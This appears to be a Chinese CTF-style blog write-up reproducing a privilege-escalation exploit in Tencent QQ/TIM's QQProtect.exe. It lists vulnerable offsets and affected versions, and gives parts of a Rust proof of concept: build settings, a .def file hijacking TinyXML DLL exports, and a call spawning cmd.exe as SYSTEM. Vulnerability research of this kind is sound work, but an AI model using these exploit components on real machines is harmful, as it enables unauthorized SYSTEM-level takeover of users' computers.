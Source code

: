 ```yaml
---
title: QQ Elevation复现
date: 2023-07-03 14:19:49
categories: CTF
tags: [CVE]
---
```


> 利用QQProtect.exe提权，获得NT Authority\SYSTEM权限。

## 漏洞成因：

QQProtect.exe没有使用ASLR保护，篡改函数指针，利用ROP链（Ret Oriented Programming，即修改函数返回指针)实现了任意代码执行。

1.QQProtect.exe+0x40c9f8处，有`任意地址写漏洞`。

待添加自己的截图，网络截图可见：



![image0](QQ%E6%8F%90%E5%8F%96%E6%BC%8F%E6%B4%9E/image0.png)

可以在任意地址写入DWORD(1)。

2.QQProtectEngine.dll+0x3B4F6处，

待添加自己的截图，网络截图可见：



![image1](QQ%E6%8F%90%E5%8F%96%E6%BC%8F%E6%B4%9E/image1.png)

可以完成对任意地址的指针ptr，偏移2个ptr指针类型大小的位置处，赋值为(unsigned int )(ptr+3)。



Affected Products:

* QQ 9.7.1.28940 ~ 9.7.8.29039
* TIM 3.4.5.22071 ~ 3.4.7.22084

Affected Components:

* QQProtect.exe 4.5.0.9424 (in TIM 3.4.5.22071)
* QQProtect.exe 4.5.0.9426 (in QQ 9.7.1.28940)
* QQProtectEngine.dll 4.5.0.9424 (in TIM 3.4.5.22071)
* QQProtectEngine.dll 4.5.0.9426 (in QQ 9.7.1.28940)

## POC

POC整体用rust构建，先来解析配置文件里的内容。

### 1.配置文件解析

针对32位系统使用静态链接的C运行时，构建可执行文件。

```sh
cargo +stable-i686-pc-windows-msvc build --release --config "build.rustflags = [\"-C\", \"target-feature=+crt-static\"]"
```

对应的toml文件

```toml
[profile.release]
opt-level = 3

[profile.release.overrides.'cfg(target_os = "windows")']
rustflags = ["-C", "target-feature=+crt-static"]
```

此时，只需要`cargo build --release`即可。

开发过程中，要利用一些依赖库，来调用Windows API、服务和命令行参数。

```toml
[dependencies.rhexdump]
version = "0.1.1"

[dependencies.windows]
version = "0.44.0"
features = [
    "Win32_Foundation",
    "Win32_System_LibraryLoader",
    "Win32_System_Threading",
    "Win32_System_SystemServices",
    "Win32_System_Console"
]

[dependencies.windows-service]
version = "0.5.0"

[dependencies.windows-args]
version = "0.2.0"

#生成动态链接库，即dll文件
[lib]
crate-type = ["cdylib"]

```

2.定义的`src\lib.def`文件中的导出符号。

### C++名称修饰规则

 C++ 的名称修饰规则，也称为名称重整（name mangling）。用于编译器生成符号表，会因平台和编译器有所不同。它将函数和变量的名称、参数类型、返回类型等信息编码成一个唯一的符号。 

名称修饰的目的是确保在**链接阶段可以正确地解析函数和变量的符号，避免符号冲突和重复定义的问题。**  为了实现不同编程语言之间的互操作性，可以使用 `extern "C"` 来指定使用 C 风格的符号。

>导出符号的格式是 `?SymbolName@ClassName@@FunctionSignature=_alias@0` 



下面的文件规定了导出的类和符号命，并 将所有导出符号重命名为 `_die`。 

```def
LIBRARY
EXPORTS
    ?NextSiblingElement@TiXmlNode@@QAEPAVTiXmlElement@@PBD@Z=_die@0
    ?FirstChildElement@TiXmlNode@@QAEPAVTiXmlElement@@PBD@Z=_die@0
    ??1TiXmlDocument@@UAE@XZ=_die@0
    ?RootElement@TiXmlDocument@@QAEPAVTiXmlElement@@XZ=_die@0
    ?GetText@TiXmlElement@@QBEPBDXZ=_die@0
    ?Attribute@TiXmlElement@@QBEPBDPBD@Z=_die@0
    ?Attribute@TiXmlElement@@QBEPBDPBDPAH@Z=_die@0
    ?LoadXML@TiXmlDocument@@QAE_NPADHW4TiXmlEncoding@@@Z=_die@0
    ??0TiXmlDocument@@QAE@XZ=_die@0
    DllMain

```


 `QAE` 指示该构造函数是一个非静态成员函数，

- `QB` 表示该函数是一个非静态成员函数，并且返回一个指针。
- `EPBD` 表示函数的第一个参数是一个 `const char*` 类型的指针。
- `PAH` 表示函数的第二个参数是一个 `int*` 类型的指针。
-  `PAVTiXmlElement 表示返回类型是一个指向 `TiXmlElement` 类的指针。 
- `0TiXmlDocument@@QAE@XZ`中0表示该类的默认构造函数
-  `@Z`：函数参数的结尾标记 ，`XZ` 表示该构造函数不接受任何参数。 



### 代码解析

```rust
CreateProcessAsUserW(token2, None, PWSTR("cmd.exe".encode_utf16().chain(Some(0)).collect::<Vec<u16>>().as_mut_ptr()), None, None, FALSE, PROCESS_CREATION_FLAGS(0), None, None, &si, &mut pi).ok().unwrap();
```

